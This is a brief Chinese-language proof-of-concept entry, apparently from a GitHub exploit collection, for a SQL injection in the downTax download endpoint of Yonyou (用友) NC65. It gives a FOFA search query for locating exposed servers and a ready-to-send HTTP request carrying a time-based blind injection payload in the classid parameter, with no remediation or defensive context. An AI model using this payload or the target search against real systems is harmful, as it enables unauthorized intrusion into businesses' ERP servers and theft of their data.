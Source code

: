 ## 用友NC-downTax存在SQL注入漏洞

NC65系统可利用/portal/pt/downTax/download接口中的classid参数进行sql注入，从而窃取服务器的敏感信息。

## fofa

```
app="用友-UFIDA-NC"
```

## poc

```
GET /portal/pt/downTax/download?pageId=login&classid=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

